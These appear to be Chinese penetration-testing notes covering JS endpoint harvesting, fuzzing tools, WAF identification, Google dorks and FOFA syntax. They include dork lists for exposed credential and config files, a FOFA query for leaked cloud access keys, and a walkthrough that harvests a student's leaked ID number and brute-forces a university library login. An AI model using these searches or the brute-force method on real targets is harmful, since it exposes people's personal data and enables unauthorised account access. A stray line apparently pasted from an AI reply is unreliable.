| **递归能力**   | 智能递归+自定义状态码 | 基础递归  | 需手动参数         |
| **配置灵活性** | ★★★★★（配置文件）     | ★★★☆☆     | ★★☆☆☆              |
| **结果处理**   | 自动去重+格式化输出   | 基础输出  | 简单输出           |

##### 8.1.5.3 御剑 





##### 8.1.5.4 7kbscan



##### 8.1.5.5 Tscan

嗨嗨嗨，Tscan又来了



### 8.2 JS接口

#### 8.2.1 JS接口信息收集

##### 8.2.1.1 核心概念

在现代 Web/WebApp 架构中，前端几乎所有的业务逻辑与数据交互都通过 JS 与后台 API 接口完成。因此 **收集 JS 接口信息** 的目的不仅是把所有可见/隐蔽的 API 列表化，还要获取参数格式、访问条件、动态生成规则等，为后续测试或自动化调用奠定基础。

##### 8.2.1.2 核心价值

- **扩大攻击面**：前端代码中暴露的后端接口地址、配置参数、认证逻辑，是突破边界的重要突破口。
- **发现未授权访问漏洞**：大量接口因权限控制缺失，可被直接调用获取敏感数据。
- **辅助挖掘高危漏洞**：如`SQL注入`、`命令执行`、`文件上传`、`业务逻辑漏洞`等，常源于接口设计缺陷。
- **实现自动化资产测绘**：通过提取接口列表，快速构建目标系统拓扑图。

常见结果：

- 获取用户隐私数据（姓名、手机号、身份证号）
- 暴露API密钥（AK/SK）、数据库连接信息
- 发现内部系统路径、管理后台地址
- 找到存在漏洞的第三方组件（如旧版Struts2、Spring Boot）

#### 8.2.2 核心原理与技术路径

##### 8.2.2.1 **前端代码 = 后端接口的“说明书”**

现代网页应用广泛使用JavaScript动态加载内容。而这些JS文件中往往包含：

| 内容类型            | 示例                                             |
| :------------------ | :----------------------------------------------- |
| 接口地址（API URL） | `https://api.xxx.com/v1/user/info`               |
| 认证令牌（Token）   | `Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...` |
| API Key / Secret    | `"apiKey": "sk_test_123456789"`                  |
| 加密方式            | `CryptoJS.AES.encrypt(...)`                      |
| 本地调试开关        | `debug: true`, `enableDevMode: true`             |
| 前端逻辑绕过点      | `if (user.role === 'admin') { ... }`             |

我在你现有结构与行文风格的基础上，**顺着体系继续往下写**，保持“专业笔记 + 可实操 + 偏渗透/安全研究”的定位，不引入多余铺垫。

##### 8.2.2.2 前端请求模型拆解（请求是如何被“构造”出来的）

JS 接口并非简单地写死一个 URL，大量真实接口是在**运行时动态拼接、条件触发、参数加工**后发起的。理解这一点，是从“看到接口”升级到“能完整复现接口调用”的关键。

一个完整的前端接口调用，通常包含以下几个层次：

1. **接口基址（Base URL）**
   - 写死在配置文件中
2. **路径拼接规则**
   - 固定路径：`/api/user/info`
   - 动态路径：`/api/user/${userId}/detail`
   - 条件路径：根据角色、状态切换不同接口
3. **请求方法**
   - GET / POST / PUT / DELETE
   - 常见误区：同一路径，不同 Method，权限完全不同
4. **参数来源**
   - URL Query
   - Request Body（JSON / FormData）
   - Cookie / LocalStorage / SessionStorage
   - 自定义 Header（如 `X-Token`、`X-Client-Type`）
5. **请求前处理**
   - 参数签名
   - 时间戳、Nonce
   - AES / RSA / Base64 编码
   - 请求拦截器（axios interceptor）

> 实战中：**参数构造逻辑往往比接口地址更有价值**

#### 8.2.3 JS 接口信息收集方法

**目标：在不操作页面的情况下，最大化提取接口线索**

一般通过插件实现自动化js信息收集

**（1）JS 文件收集**

重点关注：

- 主站 JS（`main.js`, `app.js`, `index.js`）
- 异步加载 JS
- 版本号文件（`app.3f2a9c.js`）
- SourceMap 文件（`.map`）

> 经验：`.map` 文件一旦可访问，接口信息完整度极高

**（2）关键词与正则提取**

高频关键词：

```text
/api/
/v1/
/v2/
http
https
token
secret
key
admin
manage
internal
```

常用正则思路（示例）：

```regex
https?://[a-zA-Z0-9./:_-]+
/api/[a-zA-Z0-9/_-]+
```

> 不追求一次性“全提取”，而是 **多轮筛选 + 人工过滤**

**（3）关注“配置对象”**

前端项目中常见如下结构：

```js
const config = {
  apiBase: 'https://api.xxx.com',
  uploadUrl: '/api/upload',
  adminApi: '/internal/admin'
}
```

这类配置对象，往往集中存放了**关键接口入口**。

**（4）主动触发业务流程**

不要只“浏览页面”，要：

- 切换用户角色
- 构造异常输入
- 重复点击、越权操作
- 尝试访问隐藏入口（按钮灰但可点）

> 很多接口 **只在异常流程中触发**

#### 8.2.4 常见高价值 JS 接口类型

##### 8.2.4.1 用户与权限相关接口

- 用户信息查询
- 权限列表
- 角色切换
- 登录态校验

重点测试方向：

- 未授权访问
- 水平/垂直越权
- Token 复用

##### 8.2.4.2 文件与上传接口

- `/upload`
- `/file/import`
- `/image/upload`

重点关注：

- Content-Type 绕过
- 后端校验是否可信前端
- 上传路径回显

##### 8.2.4.3 管理/内部接口

关键词：

```text
/admin
/manage
/internal
/backstage
/ops
```

特点：

- 前端隐藏
- 仅通过 JS 调用
- 权限校验薄弱

#### 8.2.5 JS信息收集工具

##### 8.2.5.1 半自动化 —— Burp Suite 插件体系

###### 8.2.5.1.1 HaE（Highlighter and Extractor）

**项目地址**
https://github.com/gh0stkey/HaE

工具定位

HaE 是一款 **框架式 Burp 插件**，核心目标不是“自动扫描”，而是：

> **对 HTTP / WebSocket 消息中的关键信息进行精细化标记与提取，防止人工分析过程中的疏漏。**

核心特点

- 模块化设计（类似“乐高积木”）
- 支持 HTTP + WebSocket
- 支持自定义规则
- 引入 **大模型辅助思路**，增强数据识别能力

适合发现的信息类型

- JS 接口路径
- 敏感字段（token、key、password）
- 特殊参数（debug、admin、internal）
- 可疑返回数据

适用场景

- 攻防演练
- 长时间抓包分析
- API 密集型系统

> **推荐指数：★★★★★**
> 更像“智能辅助分析工具”，而非一次性扫描器

###### 8.2.5.1.2 BurpAPIFinder

**项目地址**
https://github.com/shuanx/BurpAPIFinder

工具定位

BurpAPIFinder 专注于一个核心问题：

> **“被访问页面背后，还有哪些未被注意到的接口和敏感信息？”**

核心能力

- 自动分析 **HTML / JS** 中的接口路径
- 自动请求提取到的接口
- 支持自定义父路径组合访问

可发现的高价值问题

- 未授权 / 越权获取：
  - 账号密码
  - 私钥 / 凭证
- 用户相关接口：
  - 用户枚举
  - 密码修改
  - 用户创建
- 后台登录地址
- HTML / JS 中泄露的：
  - 明文账号密码
  - 云主机 AK / SK

实战优势

- 非常适合：
  - 已拿到部分访问权限
  - 但怀疑系统存在“隐藏接口”的场景

> **推荐指数：★★★★★**
> 对 JS 接口信息收集极为友好，实战命中率高

###### 8.2.5.1.3 Unexpected_information

**项目地址**
https://github.com/ScriptKid-Beta/Unexpected_information

工具定位

一款 **“防止你漏看数据包”的 Burp 插件**。

主要功能

- 自动标记：
  - 敏感信息
  - JS 接口
  - 特殊字段
- 对可疑请求包进行高亮提示

使用评价

- 不主动扫描
- 但在人工分析中：
  - 经常能“意外发现”之前忽略的数据

> **推荐指数：★★★★☆**
> 作为 HaE 的补充使用效果更佳

##### 8.2.5.2 工具化 —— 各类接口提取 & FUZZ 项目

###### 8.2.5.2.1 ffuf（接口 FUZZ 核心工具）

**项目地址**
https://github.com/ffuf/ffuf

**工具定位**

ffuf 是一款 **高性能模糊测试工具**，适用于：

- 接口路径枚举
- API 根路径探测
- 参数 FUZZ

配合字典

字典来源：
https://wordlists.assetnote.io/

示例用法

```bash
ffuf.exe -w httparchive_js_2024_05_28_2.txt \
         -u https://api.xxx.com/FUZZ \
         -t 200
```

实战建议

- 用 JS 提取的接口路径作为 FUZZ 基础
- 而不是盲目扫全站

> **推荐指数：★★★★★**
> FUZZ 能力极强，但高度依赖字典质量

###### 8.2.5.2.2 JSFinder

**项目地址**
https://github.com/Threezh1/JSFinder

**工具定位**

- 提取 JS 中的 URL 与子域名

**现实评价**

- 长期未更新
- 规则老旧
- 在现代前端项目中命中率下降明显

> **推荐指数：★★☆☆☆**
> 已被更现代工具替代，可作为了解工具

###### 8.2.5.2.3 URLFinder

**项目地址**
https://github.com/pingc0y/URLFinder

工具定位

一款 **集成爬虫的页面信息提取工具**。

核心能力

- 分析 HTML / JS 中的 URL
- 深度爬取页面
- 提取：
  - 接口路径
  - 隐藏 API
  - 敏感信息

示例用法

```bash
URLFinder.exe -u https://xxx.com -s all -m 3
```

优点

- 自动化程度高
- 适合前期资产与接口测绘

> **推荐指数：★★★★★**

##### 8.2.5.3 Webpack 等前端打包专项工具

###### 8.2.5.3.1 Packer-Fuzzer

**项目地址**
https://github.com/rtcatc/Packer-Fuzzer

**工具定位**

- 针对 Webpack 打包站点
- 自动下载并分析前端构建产物

**注意事项**

- 误报率较高
- 更适合作为 **辅助发现工具**

> **推荐指数：★★★☆☆**

###### 8.2.5.3.2 jjjjjjjjjjjjjjs（Webpack 实战利器）

**项目地址**
https://github.com/ttstormxx/jjjjjjjjjjjjjs

**工具定位（高度自动化）**

- 针对 Webpack 前端项目
- 自动：
  - 爬取 JS
  - 分析接口
  - 识别 API 根路径
  - FUZZ 接口
  - 请求验证

**高级能力**

- 支持指定后端 API 根地址
- 支持批量目标
- 支持对需认证接口尝试 bypass
- 自动回显接口响应，定位敏感信息

**实战评价**

> **这是目前“JS 接口自动化挖掘”中完成度极高的一款工具**

> **推荐指数：★★★★★**

##### 8.2.5.4 浏览器插件辅助工具

###### 8.2.5.4.1 FindSomething

**项目地址**
https://github.com/momosecurity/FindSomething

**工具定位**

浏览器插件，用于：

- 提取 HTML / JS 中的“有趣信息”

**可发现内容**

- 接口 URL
- 请求资源
- IP / 域名
- 身份证号
- 手机号
- 邮箱信息

**适合阶段**

- 前期快速摸底
- 资产与信息收集初期

> **推荐指数：★★★★☆**

###### 8.2.5.4.2 雪瞳


###### 8.2.5.4.3 Js信息泄露检测🚬🚬


#### 8.2.6 总结

**JS 接口信息收集，本质是“通过前端逆向后端能力边界”**

做得好的 JS 接口收集，往往已经完成了 **70% 的攻击面分析工作**。

### 8.3 网络安全防护识别

#### 8.3.1 WAF

##### 8.3.1.1 什么是WAF？

WAF（Web应用防火墙）是一种专门用于保护Web应用免受各种网络攻击的安全防护系统。它位于Web服务器与用户之间，通过监控和过滤HTTP/HTTPS流量，防止恶意攻击进入Web应用。WAF通常可以有效防范SQL注入、跨站脚本（XSS）、跨站请求伪造（CSRF）等常见Web攻击，能够对Web应用进行深度防护，减少漏洞带来的风险。

WAF的核心功能是分析和过滤流量。它通过一系列预定义规则对进出Web应用的请求进行检查，识别潜在的恶意行为并及时阻止。与传统的防火墙不同，WAF不仅关注网络层的安全，还能检测和防御应用层的攻击。

##### 8.3.1.2 WAF的分类

WAF可以根据部署方式、功能特点以及处理方式的不同进行分类。主要分类包括以下几种：



###### 8.3.1.2.1 云WAF

云WAF主要利用DNS技术，通过移交域名解析权来实现安全防护，用户的请求首先发送到云端节点进行检测，如存在异常请求则进行拦截否则将请求转发至真实服务器。

常见的云WAF有阿里云盾、腾讯云 T-Sec Web 应用防火墙、百度云应用防火墙 WAF、华为云-云防火墙 CFW、华为云 Web应用防火墙 WAF、安全狗云御WEB应用防护系统、安恒玄武盾云防护、绿盟网站云防护、启明星辰虚拟化WAF、深信服云Web应用防火墙云WAF、知道创宇-创宇盾、F5 分布式云 WAF、奇安信网站卫士、360磐云、网宿Web应用防火墙、奇安信网神WEB应用安全云防护系统（安域）等

###### 8.3.1.2.2 硬件WAF（常见部署模式：透明桥、透明代理、旁路镜像）

硬件WAF通常部署在Web服务器之前，过滤所有外部访问流量，并对请求包进行解析，通过安全规则库的攻击规则进行匹配，识别异常并进行请求阻断。

常见产品有绿盟Web应用防火墙、安恒明御Web应用防火墙、启明天清Web应用安全网关、长亭雷池（SafeLine） 下一代 Web 应用防火墙、远江盛邦Web应用防护系统（RayWAF）、天融信Web应用安全防护系统（TopWAF）、深信服Web应用防火墙WAF、铱迅Web应用防护系统、F5 Advanced WAF（API 安全 - 新一代 WAF）



###### 8.3.1.2.3 软件WAF（常见部署模式：反向代理、嵌入式、K8S）

软件WAF安装在需要防护的服务器上，通过监听端口或以Web容器扩展方式进行请求检测和阻断。

常见产品有安全狗、云锁、D盾、网防G01、护卫神、智创、UPUPW、宝塔网站防火墙、悬镜、安骑士等

###### 8.3.1.2.4 其他WAF

中间件自带的WAF模块、网站内置WAF、开源WAF（Naxsi、OpenRASP、ModSecurity）

##### 8.3.1.3 WAF的监测机制

WAF的监测机制是其最核心的部分，主要通过以下几种方式对Web应用进行保护：

###### 8.3.1.3.1 基于规则的监测（绿盟、启明、安恒）

WAF通常通过预定义的规则来检测和过滤恶意流量。规则可以包括常见的攻击特征（如SQL注入、XSS、文件上传漏洞等）和恶意请求模式。WAF根据这些规则实时分析进来的每一个请求，如果匹配到攻击模式，则会进行阻止或记录。这种基于规则的监测是WAF最常用的防护机制，适用于大多数已知攻击。

###### 8.3.1.3.2 行为分析监测

行为分析监测是一种更为先进的WAF检测机制，通过分析用户的行为模式来识别异常活动。与基于规则的监测不同，行为分析通过识别正常用户和攻击者之间的差异，发现不符合正常行为的请求并进行处理。它能够防御未知攻击和零日漏洞攻击，适用于那些无法通过静态规则定义的攻击。

###### 8.3.1.3.3  基于语义分析（长亭雷池yyds）

长亭雷池WAF的语义分析技术通过“词法→语法→语义”三层深度解码，把HTTP请求当作一段可执行“代码”来理解，先逐字符还原编码、再构建SQL/JS等抽象语法树，最终在语义层面判定是否包含恶意意图；结合AI模型持续学习正常业务表述，实现对0day、变种绕过的高精度拦截，做到无需规则库即可将误报率压至0.1%，同时通过流式处理把检测延迟控制在1 ms级。



#### 8.3.2如何识别WAF

##### 8.3.2.1 wafw00f

- 项目地址：https://github.com/EnableSecurity/wafw00f
- nmap默认有19个指纹，sqlmap默认有94个指纹，wafw00f默认有155个指纹



#### 8.3.3 市面常见WAF告警页面

常见30多种，参考

https://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247493356&idx=1&sn=6e7965695419b10dd10242a2eaf83730&scene=21&poc_token=HM3Gxmij2ysT_ZyF5UjrIa4BGeE1Eja4Yd6Gf93X

##### 8.3.3.1 长亭雷池（商业版）


##### 8.3.3.2 长亭雷池（社区版）



##### 8.3.3.3 阿里云盾



##### 8.3.3.4 腾讯T-Sec Wb 应用防火墙



##### 8.3.3.5 华为Web应用防火墙 WAF


##### 8.3.3.6 安恒云-Web应用防火墙（玄武盾）平台



##### 8.3.3.7 安全狗云御WEB应用防护系统


##### 8.3.3.8 知道创宇-创宇盾Web应用防火墙


##### 8.3.3.9 奇安信网神WEB应用安全云防护系统（安域）



##### 8.3.3.10 云锁



##### 8.3.3.11 宝塔



### 8.4 高级搜索

#### 8.4.1 高级搜索语法

##### 8.4.1.1 百度搜索

- **site:** 
  限定搜索某个站点或域名 
  例：`site:edu.cn 网络安全`
- **intitle:** 
  搜索标题中包含指定关键词 
  例：`intitle:登录`
- **inurl:** 
  搜索网址中包含指定关键词 
  例：`inurl:admin`
- **filetype:** 
  搜索指定文件类型 
  例：`filetype:pdf 网络安全`
- **双引号 " "** 
  精确匹配搜索内容 
  例：`"网络安全培训"`

##### 8.4.1.2 Google 搜索

- **site:** 
  限定某个网站/域名 
  例：`site:github.com sqlmap`
- **intitle:** 
  页面标题包含关键词 
  例：`intitle:"index of"`
- **inurl:** 
  URL 中包含关键词 
  例：`inurl:login`
- **filetype:** 
  搜索特定文件类型 
  例：`filetype:docx password`
- **双引号 " "** 
  精确匹配 
  例：`"admin panel"`
- **OR / AND** 
  逻辑运算符 
  例：`php OR asp`
- **减号 -** 
  排除某些关键词 
  例：`网络安全 -招聘`

##### 8.4.1.3 Google搜索语法示例

整理了下一些常见的一些`Google检索的语法`，如下：

```
注入漏洞:
site:edu.cn inurl:id|aspx|jsp|php|asp

文件上传：
site:edu.cn inurl:file|load|editor|Files

前台登录：
site:edu.cn intext:管理|后台|登陆|用户名|密码|验证码|系统|帐号|手册|admin|login|sys|managetem|password|username

site:edu.cn inurl:login|admin|manage|manager|admin_login|login_admin|system|boss|master

敏感信息搜索:
site:edu.cn ( "默认密码" OR "学号" OR "工号")

后台接口和敏感信息探测:
site:edu.cn (inurl:login OR inurl:admin OR inurl:index OR inurl:登录) OR (inurl:config | inurl:env | inurl:setting | inurl:backup | inurl:admin | inurl:php)

查找暴露的特殊文件:
site:edu.cn filetype:txt OR filetype:xls OR filetype:xlsx OR filetype:doc OR filetype:docx OR filetype:pdf

常见的敏感文件扩展:
site:edu.cn ext:log | ext:txt | ext:conf | ext:cnf | ext:ini | ext:env | ext:sh | ext:bak | ext:backup | ext:swp | ext:old | ext:~ | ext:git | ext:svn | ext:htpasswd | ext:htaccess

XSS 漏洞倾向参数:
inurl:q= | inurl:s= | inurl:search= | inurl:query= | inurl:keyword= | inurl:lang= inurl:& site:edu.cn

重定向漏洞倾向参数:
inurl:url= | inurl:return= | inurl:next= | inurl:redirect= | inurl:redir= | inurl:ret= | inurl:r2= | inurl:page= inurl:& inurl:http site:edu.cn

SQL 注入倾向参数:
inurl:id= | inurl:pid= | inurl:category= | inurl:cat= | inurl:action= | inurl:sid= | inurl:dir= inurl:& site:edu.cn

SSRF 漏洞倾向参数:
inurl:http | inurl:url= | inurl:path= | inurl:dest= | inurl:html= | inurl:data= | inurl:domain= | inurl:page= inurl:& site:edu.cn

本地文件包含（LFI）倾向参数:
inurl:include | inurl:dir | inurl:detail= | inurl:file= | inurl:folder= | inurl:inc= | inurl:locate= | inurl:doc= | inurl:conf= inurl:& site:edu.cn

远程命令执行（RCE）倾向参数:
inurl:cmd | inurl:exec= | inurl:query= | inurl:code= | inurl:do= | inurl:run= | inurl:read= | inurl:ping= inurl:& site:edu.cn

敏感参数:
inurl:email= | inurl:phone= | inurl:password= | inurl:secret= inurl:& site:edu.cn

API 文档:
inurl:apidocs | inurl:api-docs | inurl:swagger | inurl:api-explorer site:edu.cn

代码泄露:
site:pastebin.com edu.cn

云存储:
site:s3.amazonaws.com edu.cn

JFrog Artifactory:
site:jfrog.io edu.cn

Firebase:
site:firebaseio.com edu.cn

文件上传端点:
site:edu.cn "choose file"

漏洞赏金和漏洞披露程序:
"submit vulnerability report" | "powered by bugcrowd" | "powered by hackerone" site:*/security.txt "bounty"

暴露的 Apache 服务器状态:
site:*/server-status apache

WordPress:
inurl:/wp-admin/admin-ajax.php
```

**实战效果示例：**

谷歌语法

site:xxx.edu.cn "身份证(身份证号)” 

注意身份证和身份证号有时候搜出来的结果会不一样，可能有时会有惊喜


发现泄露信息


找到荣誉证书，此处身份证未打码，获取若干学生身份证


获取到学生的身份证号了，看看有什么能默认登录的网站

在fofa进行信息收集，搜集该学校的域名

```fofa
domain="xxx.edu.cn"
```


发现一处图书馆登录入口


默认账号密码也写在页面的，尝试了几次发现不需要验证，一个完美的爆破框，直接抓包



学号未加密，密码加密。此时已经知道密码只需爆破账号了，现在只差学号，继续谷歌语法进行学号搜集

site:xxx.edu.cn "学号"


搜集了半天找到不少学号，但是怎么和找到的这个身份证号扯上关系呢？

这时想到去找到身份证处看看



身份证泄露的学生是该学校土木一班的，只要找到土木工程专业的学号，一般学号都是有规律的，这样就大概能猜出该班的学号，减小爆破难度



成功找到土木工程专业的学生学号将爆破目标锁定到后两位

爆破成功



登录


##### 8.4.1.4 在线工具

https://app.pentest-tools.com/information-gathering/google-hacking#





##### 8.4.1.5 浏览器插件(Search Hacking 助手)

https://github.com/Pa55w0rd/google-hacking-assistant

**工具简介**

**一键式搜索引擎Hacking工具，让安全研究更高效**

在 Google、百度、Bing 搜索结果页自动注入侧边栏，提供预定义和自定义的 Hacking 语法按钮。支持 `site:` 查询自动检测，一键执行高级搜索，轻松打造专属工具集。

> **核心优势**：11+ 内置语法 | 自定义语法支持 | URL批量提取 | 多引擎支持 | 零追踪零配置

核心功能

一键式搜索

- **智能侧边栏** - 自动检测 `site:` 查询，固定右侧显示
- **11+ 内置语法** - 覆盖文档、配置、备份、登录等常见场景
- **自定义语法** - 支持添加、编辑、独立开关，打造专属工具集
- **多引擎支持** - 支持 Google、百度、Bing 全球版本

**使用指南**

**快速开始**

1. **执行搜索**：在搜索引擎中输入 `site:example.com`
2. **查看侧边栏**：右侧自动显示语法按钮
3. **一键执行**：点击语法按钮，自动执行高级搜索

**核心功能使用**

**语法搜索**

- **使用内置语法**：直接点击侧边栏中的语法按钮

- 自定义语法

  ：在设置页创建个性化语法，使用

  ```
  {target_domain}
  ```

  占位符

  - 示例：`site:{target_domain} filetype:pdf`
  - 效果：自动替换为 `site:example.com filetype:pdf`

**URL提取**

- 点击侧边栏"提取URL"按钮
- 自动提取搜索结果中的所有链接
- 支持单个/批量复制





#### 8.4.2 网络空间测绘引擎

##### 8.4.2.1 FOFA

###### 8.4.2.1.1 什么是FOFA？

FOFA是一款网络空间测绘的搜索引擎，旨在帮助用户以搜索的方式查找**公网上的互联网资产**。简单的来说就是**网络安全中的”谷歌”**，不同的是，这些数据不仅包括像谷歌一样的网页，还包括像摄像头、打印机、数据库、操作系统等资产。

网络空间测绘可以被认为是网络空间的“地图”。就像谷歌地图或高德地图通过卫星图像对地形进行测绘，网络空间测绘也是通过技术探针对全球网络资产进行探测。但fofa是基于IP和端口去发现资产，因此有些资产是发现不了的，类似于**二级目录下的网页大概率会被收录不了**。

###### 8.4.2.1.2 fofa基础语法

基础语法在FOFA官网(https://fofa.info/)处，这里全部贴过来做个保留，可以直接跳过这个部分，等到用到的时候再查阅。





高级搜索

| 逻辑连接符 | 具体含义                                                     |
| ---------- | ------------------------------------------------------------ |
| =          | 匹配，当设置为`=""`时，可查询不存在字段或者值为空的情况。    |
| ==         | 完全匹配，当设置为`==""`时，可查询存在且值为空的情况。       |
| &&         | 与                                                           |
| ll         | 或                                                           |
| !=         | 不匹配，当设置为`!=""`时，可查询值为空的情况。               |
| *=         | 模糊匹配，使用`*`或者`?`进行搜索，比如`banner*="mys??"`(个人版及以上可用)。 |
| ()         | 确认查询优先级，括号内容优先级最高。                         |

基础类(General)

| 语法         | 例句                                                     | 描述                                                |
| ------------ | -------------------------------------------------------- | --------------------------------------------------- |
| IP           | ip=`"`1.1.1.1`"` ip=`"`220.181.111.1/24`"` ip=`"`IPv6`"` | 分别通过单一IPv4地址、IPv4C段、单一IPv6地址进行查询 |
| 端口         | port=`"`6379`"`                                          | 通过端口号进行查询                                  |
| 域名         | domain=`"`qq.com`"`                                      | 通过根域名进行查询                                  |
| 主机         | host=`"`.fofa.info`"`                                    | 通过主机名进行查询                                  |
| 操作系统     | os=`"`centos`"`                                          | 通过操作系统进行查询                                |
| 服务器       | server=`"`Microsoft-IIS/10`"`                            | 通过服务器进行查询                                  |
| 自治系统号   | asn=`"`19551`"`                                          | 通过自治系统号进行搜索                              |
| 组织         | org=`"`LLCBaxet`"`                                       | 通过所属组织进行查询                                |
| 是否拥有域名 | is_domain=true is_domain=false                           | 筛选拥有域名的资产/筛选没有域名的资产               |
| 是否为IPv6   | is_ipv6=true is_ipv6=false                               | 筛选是IPv6的资产/筛选是IPv4的资产                   |

标记类(SpecialLabel)

| 语法        | 例句                                    | 用途说明                                            |
| ----------- | --------------------------------------- | --------------------------------------------------- |
| app         | app=`"`Microsoft-Exchange`"`            | 通过FOFA整理的规则进行查询                          |
| fid         | fid=`"`sSXXGNUO2FefBTcCLIT/2Q==`"`      | 通过FOFA聚合的站点指纹进行查询                      |
| product     | product=`"`NGINX`"`                     | 通过FOFA标记的产品名进行查询                        |
| category    | category=`"`服务`"`                     | 通过FOFA标记的分类进行查询                          |
| type        | type=`"`service`"` type=`"`subdomain`"` | 筛选协议资产 筛选服务（网站类）资产                 |
| cloud_name  | cloud_name=`"`Aliyundun`"`              | 通过云服务商进行查询                                |
| is_cloud    | is_cloud=true is_cloud=false            | 筛选是云服务的资产 筛选不是云服务的资产             |
| is_fraud    | is_fraud=true is_fraud=false            | 筛选是仿冒垃圾站群的资产 筛选不是仿冒垃圾站群的资产 |
| is_honeypot | is_honeypot=true is_honeypot=false      | 筛选是蜜罐的资产 筛选不是蜜罐的资产                 |

协议类(type=service)

| 语法          | 例句                                            | 用途说明                                            |
| ------------- | ----------------------------------------------- | --------------------------------------------------- |
| protocol      | protocol=`"`quic`"`                             | 通过协议名称进行查询                                |
| banner        | banner=`"`users`"`                              | 通过协议返回信息进行查询                            |
| base_protocol | base_protocol=`"`udp`"` base_protocol=`"`tcp`"` | 查询传输层为udp协议的资产 查询传输层为tcp协议的资产 |

网站类(type=subdomain)

| 语法         | 例句                                             | 用途说明                                     |
| ------------ | ------------------------------------------------ | -------------------------------------------- |
| title        | title=`"`beijing`"`                              | 通过网站标题进行查询                         |
| header       | header=`"`elastic`"`                             | 通过响应标头进行查询                         |
| header_hash  | header_hash=`"`1258854265`"`                     | 通过http/https响应头计算的hash值进行查询     |
| body         | body=`"`网络空间测绘`"`                          | 通过HTML正文进行查询                         |
| body_hash    | body_hash=`"`-2090962452`"`                      | 通过HTML正文计算的hash值进行查询             |
| js_name      | js_name=`"`js/jquery.js`"`                       | 通过HTML正文包含的JS进行查询                 |
| js_md5       | js_md5=`"`82ac3f14327a8b7ba49baa208d4eaa15`"`    | 通过JS源码进行查询                           |
| cname        | cname=`"`ap21.inst.siteforce.com`"`              | 通过别名记录进行查询                         |
| cname_domain | cname_domain=`"`siteforce.com`"`                 | 通过别名记录解析的主域名进行查询             |
| icon_hash    | icon_hash=`"`-247388890`"`                       | 通过网站图标的hash值进行查询                 |
| status_code  | status_code=`"`402`"`                            | 筛选服务状态为402的服务（网站）资产          |
| icp          | icp=`"`京ICP证030173号`"`                        | 通过HTML正文包含的ICP备案号进行查询          |
| sdk_hash     | sdk_hash==`"`Mkb4Ms4R96glv/T6TRzwPWh3UDatBqeF`"` | 通过网站嵌入的第三方代码计算的hash值进行查询 |

地理位置(Location)

| 语法    | 例句                                    | 用途说明                                  |
| ------- | --------------------------------------- | ----------------------------------------- |
| country | country=`"`CN`"` country=`"`中国`"`     | 通过国家的简称代码或中文名称进行查询      |
| region  | region=`"`Zhejiang`"` region=`"`浙江`"` | 通过省份/地区的英文名称或中文名称进行查询 |
| city    | city=`"`Hangzhou`"`                     | 通过城市英文名称进行查询                  |

证书类

| 语法             | 例句                                            | 用途说明                         |
| ---------------- | ----------------------------------------------- | -------------------------------- |
| cert             | cert=`"`baidu`"`                                | 通过证书进行查询                 |
| cert.subject     | cert.subject=`"`OracleCorporation`"`            | 通过证书的持有者进行查询         |
| cert.issuer      | cert.issuer=`"`DigiCert`"`                      | 通过证书的颁发者进行查询         |
| cert.subject.org | cert.subject.org=`"`OracleCorporation`"`        | 通过证书持有者的组织进行查询     |
| cert.subject.cn  | cert.subject.cn=`"`baidu.com`"`                 | 通过证书持有者的通用名称进行查询 |
| cert.issuer.org  | cert.issuer.org=`"`cPanel,Inc.`"`               | 通过证书颁发者的组织进行查询     |
| cert.issuer.cn   | cert.issuer.cn=`"`SynologyInc.CA`"`             | 通过证书颁发者的通用名称进行查询 |
| cert.is_valid    | cert.is_valid=true cert.is_valid=false          | 筛选证书有效性的资产             |
| cert.is_match    | cert.is_match=true cert.is_match=false          | 筛选证书和域名匹配性的资产       |
| cert.is_expired  | cert.is_expired=true cert.is_expired=false      | 筛选证书过期状态的资产           |
| jarm             | jarm=`"`15af977ce25de452b96affa2addb1036`"`     | 通过JARM指纹进行查询             |
| tls.version      | tls.version=`"`TLS1.3`"`                        | 通过tls的协议版本进行查询        |
| tls.ja3s         | tls.ja3s=`"`15af977ce25de452b96affa2addb1036`"` | 通过tls的ja3s指纹进行查询        |

时间类(Lastupdatetime)

| 语法         | 例句                                            | 用途说明                     |
| ------------ | ----------------------------------------------- | ---------------------------- |
| after        | after=`"`2023-01-01`"`                          | 筛选某一时间之后有更新的资产 |
| before       | before=`"`2023-12-01`"`                         | 筛选某一时间之前有更新的资产 |
| after&before | after=`"`2023-01-01`"`&&before=`"`2023-12-01`"` | 筛选某一时间区间有更新的资产 |

独立IP语法

独立IP系列语法，不可和上面其他语法共用

| 语法         | 例句                       | 用途说明                            |
| ------------ | -------------------------- | ----------------------------------- |
| port_size    | port_size=`"`6`"`          | 筛选开放端口数量等于6个的独立IP     |
| port_size_gt | port_size_gt=`"`6`"`       | 筛选开放端口数量大于6个的独立IP     |
| port_size_lt | port_size_lt=`"`12`"`      | 筛选开放端口数量小于12个的独立IP    |
| ip_ports     | ip_ports=`"`80,161`"`      | 筛选同时开放不同端口的独立IP        |
| ip_country   | ip_country=`"`CN`"`        | 通过国家的简称代码进行查询独立IP    |
| ip_region    | ip_region=`"`Zhejiang`"`   | 通过省份/地区英文名称进行查询独立IP |
| ip_city      | ip_city=`"`Hangzhou`"`     | 通过城市英文名称进行查询独立IP      |
| ip_after     | ip_after=`"`2021-03-18`"`  | 筛选某一时间之后有更新的独立IP      |
| ip_before    | ip_before=`"`2019-09-09`"` | 筛选某一时间之前有更新的独立IP      |

###### 8.4.2.1.3 fofa的奇淫巧技

1.**批量发现资产**

在平时的漏洞挖掘中，若发现漏洞，都可以尝试通过FOFA搜索，因为这个模板很有可能是一些通用的建站模板，通过F12查看网页特征，直接FOFA搜索网页特征`body="为全体师生提供咨询、生活....综合服务"`，这个地方要根据实际的情况选择语法进行搜索，比如搜索特别的js名称，`favicon.ico`等，可使用fofa批量发现相关资产

2.**发现脆弱资产**

挖掘特定目标的漏洞，可通过fofa目标网站的`favicon`图标，例如:`icon_hash="1471194169"`，可检索到大量隐藏资产。

通过官网链接加上`/favicon.ico`，可以快速获得一个网站的图标，然后fofa上传图标



或者直接搜索对应域名网站，fofa会自动提示icon



3.**其他操作**

除了上述这些操作，还可以利用fofa：

- 找DVWA靶场：`title="DVWA"`
- SQLi-LABS靶场:`title="SQL Injections"`
- 看看黑客们都用啥工具：`body="Directory listing for /" && body="dirsearch"`,这里工具可以替换为BurpSuite等
- 阿里云key：`body="AccessKeyId" && body="AccessKeySecret" && body="Expiration"`

##### 8.4.2.2 hunter

###### 8.4.2.2.1 Hunter简介

